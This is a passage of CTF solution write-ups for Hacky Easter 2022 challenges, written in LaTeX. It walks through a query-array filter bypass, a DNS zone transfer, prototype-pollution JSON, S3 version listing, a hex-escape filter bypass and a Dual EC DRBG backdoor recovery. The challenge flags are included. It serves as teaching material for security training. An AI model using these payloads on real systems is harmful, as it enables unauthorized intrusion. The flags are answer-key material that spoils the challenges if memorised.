\end{verbatim}
}
\end{fullwidth}
which prints the flag \verb+he2022{0p3n-35-35-37-f0r-pr0fit}+.
	










% !TeX root = ../solution.tex

\hypertarget{he22.20}{%
\chapter{[HE22.20] Coney Island Hackers}\label{he22.20}}

\begin{marginfigure}
	
\includegraphics[width=49mm]{level5/challenge20.jpg}
\end{marginfigure}
\section{Intro}
Coney Island Hackers have a secret web portal.

Using advanced social engineering techniques, you found out their secret passphrase: \verb+eat,sleep,hack,repeat+. However, it seems to take more than just entering the passphrase as-is. Can you find out what?

\noindent \url{http://46.101.107.117:2202}

\noindent Note: The service is restarted every hour at x:00.
\subsection{Hint}

\verb+if (req.query.passphrase == 'eat,sleep,hack,repeat')+

\section{Solution}\label{hv22.20solution}

When the leaked password is entered, a message ``DANGER, commas detected' is presented.  So the task is to bypass the detection of commas in the password.  The hint given indicates that the use of the equality operator \verb+==+ is the problem here.  Reading up on the conversion rules if the two objects to be compared do not have the same type, we find that an array of strings will be converted to a comma separated string.

To create an array as part of the request, \verb+?passphrase[0]=eat&passphrase[1]=sleep,...+ can be used.  When properly HTMLized, we get the flag \verb+he2022{el_dorado_arkade}+.
	
\subsection{Notes}
\url{https://newbedev.com/passing-arrays-as-url-parameter}









% !TeX root = ../solution.tex

\hypertarget{he22.21}{%
\chapter{[HE22.21] Textbook}\label{he22.21}}

\begin{marginfigure}
	
\includegraphics[width=49mm]{level5/challenge21.jpg}
\end{marginfigure}
\subsection{Intro}
I've got the source code and the output of a simple cipher.

\noindent Can you calculate the flag from it?

\noindent File \verb+textbook.zip+.

\subsection{Hint}

As usual, the flag starts with \verb+he2022+.

\section{Solution}\label{hv22.21solution}
The code generator is very simple, each character in the flag is coded as
\verb+pow(ord(c), e, n)+ -- take the ASCII value of the character to the power
$e$ and then store the modulo $n$.  Since we have a crib (``he2022´´) and know
the exponent, we can also calculate the real value of \verb+pow(ord(c),e)+.
Subtract the coded value, we get a number that is known to be a multiple of
$n$, so taking two such numbers, we can calculate $n$ as the GCD of the two
numbers.  Once $n$ is known, we can calculate a rainbow table for all printable
characters and look-up the flag from the encrypted flag:

\begin{minted}{python}
import math

def multi_n(c, cr):
    tmp = pow(ord(c), e)
    return (tmp - cr)

   
with open('output','r') as inF:
    s = inF.read()[1:-2]
    crypt = [int(x) for x in s.split(', ')]

n = math.gcd(multi_n(crib[0], crypt[0]),
            multi_n(crib[1], crypt[1]))

rainbow = {}
for i in range(32,128):
    rainbow[pow(i,e,n)] = chr(i)

res = ''
for i in crypt:
    res += rainbow[i]

print(res)
\end{minted}
Flag \verb+he2022{!!t3xtb00k_crypt0!!}+.
	










% !TeX root = ../solution.tex

\hypertarget{he22.22}{%
\chapter{%
\texorpdfstring{[HE22.22] H$_2$O}{[HE22.22] H2O}}\label{he22.22}}

\begin{marginfigure}
	
\includegraphics[width=49mm]{level6/challenge22.jpg}
\end{marginfigure}
\section{Intro}
Just some H$_2$O ...

\begin{fullwidth}
\texttt{\noindent
33333336333032303332333333373230333233333330323033323330333032303333333633303
23033323333333732303332333133343230333233313332323033343330323033363336323033
37333032303334333032303336333632303336333532303334333032303336333632303336333
23230333433303230333 63333323033363330323033343330323033363333323033363332323
03334333032303336333632303336333232303334333032303336333732303331333433323230
33343330323033363336323033373330323033343330323033363331323033363337323033363
33132303334333032303336333632303336333432303334333032303336333732303336333232
30333433303230333633363230333633303230333433303230333633363230333633373230333
43330323033363333323033363333323033343330323033363331323033363335323033363336
32303334333032303336333532303331333433363230333433303230333633363230333133343
33532303334333032303336333132303336333332303336333732303334333032303336333332
30333633303230333433303230333633373230333733303230333433303230333633313230333
63337323033363331323033343330323033363336323033363337323033343330323033363333
32303336333332303334333032303336333132303336333532303336333632303334333032303
33633373230333133343334
}
\end{fullwidth}

\section{Solution}\label{hv22.22solution}

It is noticeable that the message contains may threes, and the hint can point
at a conversion from hex to octal representation of numbers.  The ASCII code of
0x33 corresponds to the character `3', so it seems a good idea to convert twice
from hex to character.  Try this using CyberChef and we get a result that
contains packets of octal numbers separated by spaces.  Convert this from octal
to get another string: {\small\texttt{\NotoEmoji 😀🌊} 68 65 62 30 32 62 7b 68 171 64 72 60 67 33
156 5f 6e 137 30 78 171 67 33 156 7d}.

This looks promising, the numbers can again be interpreted as hex and octal
numbers: always two hex numbers, then one octal number.  This then corresponds
to the flag \verb+he2022{hydr0g3n_n_0xyg3n}+:


	










% !TeX root = ../solution.tex

\hypertarget{he22.23}{%
\chapter{[HE22.23] Dean's Transfers}\label{he22.23}}

\begin{marginfigure}
	
\includegraphics[width=49mm]{level6/challenge23.jpg}
\end{marginfigure}
\section{Intro}
Dean just launched his taxi business named Dean's Transfers.

\noindent
For his website, he first wanted to register \texttt{deans-transfers.com}, 
but then found out there are so many fancy top-level domains out there. 
You found a service running on his server - find a flag there!

\noindent
The service is running on port 2211 on 46.101.107.117.

\noindent
Note: The service is restarted every hour at x:00.

\subsection{Hint}
Service fingerprinting.

\section{Solution}\label{hv22.23solution}

Service fingerprinting with \verb+nmap+ doesn't show any open ports, but
testing explicitly for port 2211 shows a result:

\begin{fullwidth}
{\footnotesize
\begin{verbatim}
$ nmap -sV 46.101.107.117 -p 2211
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-10 11:55 CEST
Nmap scan report for 46.101.107.117
Host is up (0.021s latency).

PORT     STATE SERVICE VERSION
2211/tcp open  domain  ISC BIND 9.11.5-P4-5.1+deb10u6 (Debian Linux)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.59 seconds
\end{verbatim}
}
\end{fullwidth}

So we have to find a way for it to spill some information.  The hint indicates
that Dean was baffled by the many top level domains, probably he found one that
fits him.  Get the list of all top-level domains at
\url{https://data.iana.org/TLD/tlds-alpha-by-domain.txt} and try to see if we
can get a proper response from the DNS-server:

\begin{verbatim}
$ for tld in $(cat tlds-alpha-by-domain.txt)
> do
> dig @46.101.107.117 -p 2211 $tld
> done | tee run2.out
\end{verbatim}

For the domain \verb+express+ the reply is much longer, so we know that Dean
used the domain \verb+deans-transports.express+.  Probably we are looking for
an unsecured DNS zone transfer so try this:
\begin{fullwidth}
	{\footnotesize
\begin{verbatim}
$ dig -t axfr deans-transfers.express. @46.101.107.117 -p 2211

; <<>> DiG 9.18.0-2-Debian <<>> -t axfr deans-transfers.express. @46.101.107.117 -p 2211
;; global options: +cmd
deans-transfers.express. 302400 IN      SOA     deans-transfers.express. admin.deans-transfers.express.deans-transfers.express. 2 302400 43200 302400 302400
deans-transfers.express. 302400 IN      NS      ns.deans-transfers.express.
aGUyMDIye2QzNG5fZHIxdjNzX3lvdV8zdjNyeXdoM3IzISF9.deans-transfers.express. 302400 IN A 10.0.0.8
base64decode.deans-transfers.express. 302400 IN A 10.0.13.9
ns.deans-transfers.express. 302400 IN   A       10.0.0.2
deans-transfers.express. 302400 IN      SOA     deans-transfers.express. admin.deans-transfers.express.deans-transfers.express. 2 302400 43200 302400 302400
;; Query time: 20 msec
;; SERVER: 46.101.107.117#2211(46.101.107.117) (TCP)
;; WHEN: Sun Apr 10 20:05:34 CEST 2022
;; XFR size: 6 records (messages 1, bytes 309)
\end{verbatim}
}
\end{fullwidth}

The host with IP 10.0.0.8 looks suspicious, if its basename is base64-decoded we get the flag
\verb+he2022{d34n_dr1v3s_you_3v3rywh3r3!!}+.





% !TeX root = ../solution.tex

\hypertarget{he22.24}{%
\chapter{[HE22.24] C2 Traffic}\label{he22.24}}

\begin{marginfigure}
	
\includegraphics[width=49mm]{level6/challenge24.jpg}
\end{marginfigure}
\section{Intro}
We have detected C2 payloads on one of our servers! The blue team have
extracted its communications from the traffic logs, and Operations have dumped
the payload code from the running process.

Find out what the actors have exfiltrated!

File: \verb+c2traffic.zip+

\section{Solution}\label{hv22.24solution}

The payload shows that three values, $p$, $g$, $A$, are passed in, then a
random number $b$ is selected from the interval $(0,p]$ and then another value
$B = A^b \bmod p$ is calculated and returned.  From the log, we know the four
values and can calculate $b$, which is then used in the encryption of the
traffic.

There must be a simpler way, but I just bruteforced the constant $b$ and used
the result to decode the traffic.  The exchanged messages contain the flag and
all constants are:

\begin{verbatim}
p: 2272978429
g: 2
A: 1116819144
B: 1042188408
found b:  620620105
b'ls'
b'cat sensitive.txt'
b'sensitive.txt\n'
b'he2022{wh4dy4_m3an_32_b1t5_1s_1n53cur3}\n'
\end{verbatim}



	










% !TeX root = ../solution.tex

\hypertarget{he22.25}{%
\chapter{%
	\texorpdfstring{[HE22.25] {\NotoJapan 自動販売機}}%
	{[HE22.25] }}%
	\label{he22.25}}

\begin{marginfigure}
	
\includegraphics[width=49mm]{level6/challenge25.jpg}
\end{marginfigure}
\section{Intro}
I like these Japanese vending machines! {\NotoThai ๑}({\NotoSymbolTwo ◕}
‿{\NotoSymbolTwo ◕}){\NotoThai ๑}

\noindent
If I could just get a {\NotoEmoji 🚩}...

\noindent
http://46.101.107.117:2210

\noindent
Note: The service is restarted every hour at x:00.

\section{Hint}
{\NotoJapan 継承} -- inheritance

\section{Solution}\label{hv22.25solution}

First translate all the labels from Japanese to English

\begin{fullwidth}
\begin{tabular}{p{.6\textwidth}p{.6\textwidth}}
{\NotoJapan 継承} & Inheritance \\
{\NotoJapan あなたの選択をしてください}! & Make your choice! \\
{\NotoJapan 自動販売機} & vending machine \\
{\NotoJapan お楽しみください} {\NotoEmoji 🧃}! & Enjoy {\NotoEmoji 🧃}! \\
{\NotoJapan 選ぶ} & Choose\\
\end{tabular}
\end{fullwidth}

\noindent
Playing around with Postman triggers these messages:
\begin{fullwidth}
\begin{tabular}{p{.6\textwidth}p{.6\textwidth}}
{\NotoJapan 順序が無効です} & The order is invalid \\
{\NotoJapan 金額は1から4の間でなければなりません} & The amount must be between 1 and 4 \\
{\NotoJapan アイテムが見つかりません} & Item not found \\
{\NotoEmoji🚩}{\NotoJapan は許可されていません} & {\NotoEmoji🚩} is not allowed \\
\end{tabular}
\end{fullwidth}

\noindent 
The application simulates a vending machine that offers several different items, but does reject the flag  {\NotoEmoji 🚩}.  Very likely we have to try to get the vending machine to deliver a flag.  The delivery is triggered by PUT request with JSON data, such as 
{\texttt "amount":"4","item":"{\NotoEmoji 🍩}"}.  Probably replacing the doughnut  {\NotoEmoji 🍩} with a flag should give the flag.

The hint points at JavaScript inheritance and a helpful tip on Discord was ``have a pro to type it in'' which points towards prototype poisoning.  After some playing around, changing the JSON to {\texttt \{"\_\_proto\_\_": \{"item": "{\NotoEmoji 🚩}"\}, "amount":"1" \} } does yield the desired result {\NotoJapan  お楽しみください} {\NotoEmoji 🚩}{\texttt : he2022\{p0llut10n\_41nt\_g00d\} }

\subsection{Notes}
\href{https://www.fastify.io/docs/latest/Guides/Prototype-Poisoning/}{Prototype-Poisoning}




	










% !TeX root = ../solution.tex

\hypertarget{he22.26}{%
\chapter{[HE22.26] Dingos!}\label{he22.26}}

\begin{marginfigure}
	
\includegraphics[width=49mm]{level6/challenge26.jpg}
\end{marginfigure}
\section{Intro}
If you like {\NotoEmoji🐕} Dingos, check out my new web site!

{\NotoEmoji 👉} \href{my fancy Dingo web site}{https://dingos.s3.eu-west-1.amazonaws.com/index.html}

\section{Solution}\label{hv22.26solution}

The link points to a public Amazon S3, the contents of which can be listed by dropping the \verb+index.html+ from the URL.  In the lising we find an interesting file

\begin{marginfigure}
	
\includegraphics[width=49mm]{level6/dingo_egg_ognid.png}
\end{marginfigure}

\begin{minted}{xml}
<Contents>
<Key>img/dingo_egg_ognid.png</Key>
<LastModified>2022-02-09T07:45:16.000Z</LastModified>
<ETag>"ba360fc78d0e6a5fbd99a6de04230247"</ETag>
<Size>96515</Size>
<Owner>
<ID>
5b93a57df84ba174c0c60cdea70ca63d204bc59e3877d4b7ff1d76b79500562f
</ID>
<DisplayName>philipp.ps.sieber</DisplayName>
</Owner>
<StorageClass>STANDARD</StorageClass>
</Contents>
\end{minted}

Of course, the file contains a broken egg...  But there is hope: the main page proudly indicates that this is version 2 of the page, so list all the versions using \url{https://dingos.s3.eu-west-1.amazonaws.com/?versions} and find that indeed there is an older version of the file (some stuff elided):

\begin{marginfigure}
	
\includegraphics[width=49mm]{level6/dingo_egg_ognid_old_version.png}
\end{marginfigure}

\begin{minted}{xml}
<Version>
<Key>img/dingo_egg_ognid.png</Key>
<VersionId>bBYeh2BHMNmSMjrwPuwe3IqT00UCd0Dq</VersionId>
<IsLatest>true</IsLatest>
<LastModified>2022-02-09T07:45:16.000Z</LastModified>
...
</Version>
<Version>
<Key>img/dingo_egg_ognid.png</Key>
<VersionId>efyGzmXduxQAcaQIBgsxEj5i8xlCUdjG</VersionId>
<IsLatest>false</IsLatest>
<LastModified>2022-02-09T07:44:51.000Z</LastModified>
...
</Version>
\end{minted}

Flag: \verb+he2022{4_b4rk1n9_D1NG0_n3v3r_b1735}+	

\subsection{Notes}
Links used:
\href{Amazon S3 User Guide}{https://docs.aws.amazon.com/AmazonS3/latest/userguide/Welcome.html}









% !TeX root = ../solution.tex

\hypertarget{he22.27}{%
\chapter{[HE22.27] Cyclic}\label{he22.27}}

\begin{marginfigure}
	
\includegraphics[width=49mm]{level6/challenge27.jpg}
\end{marginfigure}
\section{Intro}
This one's easy - just run the program and wait!

File: \verb+cyclic+
\section{Hint}
\begin{minted}{haskell}
lag = [ ... ]  
  
main = do  
     putStrLn "[λ] I will now print your flag. Please be patient"  
     mapM_ putFlush $ map convert flag  
\end{minted}
\section{Solution}\label{hv22.27solution}

The hint and a quick inspection indicated that the file is a GHC-compiled Haskell file.  So decompile it using \url{https://github.com/gereeter/hsdecomp}.  Unfortunately, it crashes, but a fork of the tool does produce some output:

\begin{fullwidth}{\small
\begin{minted}{haskell}
Main_main_closure = >> $fMonadIO (
putStrLn (\loc_4226776_arg_0 loc_4226776_arg_1 loc_4226776_arg_2
loc_4226776_arg_3 loc_4226776_arg_4 -> 
unpackCStringUtf8# 4876512)) ($ (\loc_4227544_arg_0 loc_4227544_arg_1
loc_4227544_arg_2 loc_4227544_arg_3 loc_4227544_arg_4 -> 
mapMzu $fFoldable[] $fMonadIO (\Main_putFlush_info_arg_0 -> 
>> $fMonadIO (putChar Main_putFlush_info_arg_0) 
(\loc_4226968_arg_0 loc_4226968_arg_1 loc_4226968_arg_2
loc_4226968_arg_3 loc_4226968_arg_4 -> hFlush stdout))) 
(\loc_4227472_arg_0 loc_4227472_arg_1 loc_4227472_arg_2
loc_4227472_arg_3 loc_4227472_arg_4 -> 
map (\Main_convert_info_arg_0 -> genericIndex $fIntegralInteger 
(cycle (unpackCString# "abcdefghijklmnopqrstuvwxyz1234567890_{}")) Main_convert_info_arg_0) 
(: (IS 7) (: (IS 4) (: (IS 27) (: (IS 35) (: (IS 27) (: (IS 27) (: (IS 37) 
(: (IS 18604515501954) (: (IS 9089503077614) (: (IS 34052138441993) (: (IS 21227909669131) 
(: (IS 39663104618160) (: (IS 16103958750284) (: (IS 16456688276676) (: (IS 15426709948652) 
(: (IS 35366249530142) (: (IS 30753312664451) (: (IS 34621244773091) (: (IS 16094279020284) 
(: (IS 25308844326686) (: (IS 10237817005295) (: (IS 16074542603063) (: (IS 13960368551308) 
(: (IS 20563985455787) (: (IS 25423361916669) (: (IS 36367841662112) []
\end{minted}
}
\end{fullwidth}

The interesting part is the string containing the alphabet and the sequence of \texttt{{\small (IS...)}}.  The first numbers are small and represent the indices of the characters ``he2022{´´, and this is also the part that is printed quickly.  So just whip up a short python script that prints the flag:


\begin{minted}{python}
arr = "abcdefghijklmnopqrstuvwxyz1234567890_{}"

indices = [7,4,27,35,27,27,37,18604515501954,9089503077614,
34052138441993,21227909669131,39663104618160,16103958750284,
16456688276676,15426709948652,35366249530142,30753312664451,
34621244773091,16094279020284,25308844326686,10237817005295,
16074542603063,13960368551308,20563985455787,25423361916669,
36367841662112] 

for i in indices:
    print(arr[i % len(arr)], end='')

print()
\end{minted}

\noindent Flag: \verb+he2022{sl0w_cycl1c_l00kup}+





	










% !TeX root = ../solution.tex

\hypertarget{he22.28}{%
\chapter{[HE22.28] C0ns0n4nt Pl4n3t}\label{he22.28}}

\begin{marginfigure}
	
\includegraphics[width=49mm]{level7/challenge28.jpg}
\end{marginfigure}
\section{Intro}
\textbf{Apollo} wants his name printed on that fancy new site. He's constantly failing as vowels and some special characters are blocked when entered.

\noindent Can you help him?

\noindent \url{http://46.101.107.117:2205}

\noindent Note: The service is restarted every hour at x:00.
\section{Hint}
Submit \verb+"+ and see what happens.

\section{Solution}\label{hv22.28solution}

Using the hint, we find out that the server is running php.  Playing around with the hints at \href{https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-characters-filter-via-hex-encoding}{swissky}, we see that we can bypass the detection of vowels using hex escapes.  Submitting \verb+\x41p\x6fll\x6f+ (encoded for Apollo) greets us with the flag.

\noindent \verb+he2022{v0w3ls_4r3_f0r_n3rd5!}+





	










% !TeX root = ../solution.tex

\hypertarget{he22.29}{%
\chapter{[HE22.29] Layer Cake}\label{he22.29}}

\begin{marginfigure}
	
\includegraphics[width=49mm]{level7/challenge29.jpg}
\end{marginfigure}
\section{Intro}
Someone said there would be cake.\\
\noindent\verb+{hackyeaster/layercake:latest}+


\section{Hint}
Docker Hub

\section{Solution}\label{hv22.29solution}

As per the hint, the input is a docker image.  Looking at it in Docker Desktop,
we see that it has many layers and in each a file
\texttt{app/egg.png} should be present.  Probably one of them is the flag.

Save the docker image to a tar file with 
\texttt{docker save -o container.tar hackyeaster/layercake} and extract it.  This
generates many directories, but each contains a file \verb+layer.tar+ that
contains all the data for this layer.  So all we have to do is to extract all
the \verb+layer.tar+ and look all \verb+egg.png+ files.  A little script helps

\begin{marginfigure}
	
\includegraphics[width=49mm]{level7/egg_0.png}
\end{marginfigure}

\begin{minted}{python}
import tarfile
import glob
import os
import os.path

index = 0
for f in glob.glob('*/layer.tar'):
    tf = tarfile.open(f)
    tf.extractall('.')
    tf.close()
    if os.path.exists('app/egg.png'):
        os.rename('app/egg.png', f'app/egg_{index}.png')
    index += 1
\end{minted}

Amongst the files are many that are broken eggs, but one contains the flag \verb+he2022{th3_c4k3_is_a_l1e!}+.

\begin{marginfigure}
	
\includegraphics[width=49mm]{level7/egg_12.png}
\end{marginfigure}




	










% !TeX root = ../solution.tex

\hypertarget{he22.30}{%
\chapter{[HE22.30] Jupiter Two}\label{he22.30}}

\begin{marginfigure}
	
\includegraphics[width=49mm]{level7/challenge30.jpg}
\end{marginfigure}
\section{Intro}
Jupiter is hiding even more.

This time, it is a bit more tricky.

File: \verb+jupiter-two.png+
\subsection{Hint}
Still LSB, but a bit off.

\section{Solution}\label{hv22.30solution}

The picture is of a cyan-red 3D variety and in retrospect it is a hint towards the colours where the flag is hidden.  From the hint it is clear that we have to look again at the LSB of the colour channels, but the hint also tells us that it will not be straight forward.

Several options were tried, but basically all made use of the crib \verb+he2022{+ to identify bit pattern in the colour channels.  To this end a python script was written to extract the LSBs of the channels, convert them into binary strings, and then scan them for occurrences of the patterns.

The crib can then be assumed to be split into two or three colours and thus giving bit patterns that contain every other or every third bit of the crib.  Using only two colours, we find that the red and blue channel match and stippling the two colours together shows the flag \verb+he2022{jupiter_haz_a_great_red_spot!}+

% !TeX root = ../solution.tex

\hypertarget{he22.31}{%
\chapter{[HE22.31] Casino}\label{he22.31}}

\begin{marginfigure}
	
\includegraphics[width=49mm]{level7/challenge31.jpg}
\end{marginfigure}
\section{Intro}
Wanna try your luck in our new casino?

\noindent To prove we're not cheating, we are publishing our source code.

\noindent Connect to the server and start gamblin'!

\noindent \verb+nc 46.101.107.117 2212+

\noindent Note: The service is restarted every hour at x:00.

\noindent File: \verb+server.sage+
\subsection{Hint}
The casino is run by the NSA and they have made sure that they can always win.

\noindent P and Q are related somehow.

\section{Solution}\label{hv22.31solution}

The file given shows the casino code that makes use of an elliptic curve pseudo random number generator to ``roll the dice''.  When these generators were standardized by NIST, some flaws were identified quickly -- namely that if the two constants $P$ and $Q$ are related, then the internal state of the rng can be obtained from observing a series of outputs.   There is ample literature on the topic, \emph{e.g.} \href{http://bugcharmer.blogspot.com/2014/03/how-dual-ec-drbg-backdoor-works.html}{How the Dual EC DRBG Backdoor Works}.  The crucial part of the code is

\begin{fullwidth}
{\tiny
\begin{minted}{python}
class RNG:
    def __init__(self):
        p = 115792089210356248762697446949407573530086143415290314195533631308867097853951
        b = 0x5ac635d8aa3a93e7b3ebbd55769886bc651d06b0cc53b0f63bce3c3e27d2604b
        self.curve = EllipticCurve(GF(p), [-3,b])

        self.P = self.curve.lift_x(15957832354939571418537618117378383777560216674381177964707415375932803624163)
        self.Q = self.curve.lift_x(66579344068745538488594410918533596972988648549966873409328261501470196728491)
        
        self.state = randint(1, 2**256)
        
    def next(self):
        r = (self.state * self.P)[0].lift()
        self.state = (r * self.P)[0].lift()
        return (r * self.Q)[0].lift() >> 8
\end{minted}
}
\end{fullwidth}

\noindent The rng is standard, except that even more of the result $R\times Q$ is leaked than in the NIST proposal.  The first step is to find if $P$ and $Q$ are related; a simple brute forcing finds that $P = 1337 Q$ and from this it follows that given the result $R Q$ (the output of the rng), $R P$ can be calculated as $1337 R Q$, which is almost the internal state of the rng.

Entering the casino, we are greeted with a friendly message that gives us the first $R Q$ shifted right by eight bits
{\small
\begin{minted}{python}
 class Casino:
    def __init__(self, rng):
        self.rng = rng
        self.balance = 10

    def play(self):
        print("Your bet: ", end='')
        bet = input()
        if (bet in ["0", "1"]):
            bet = Integer(bet)
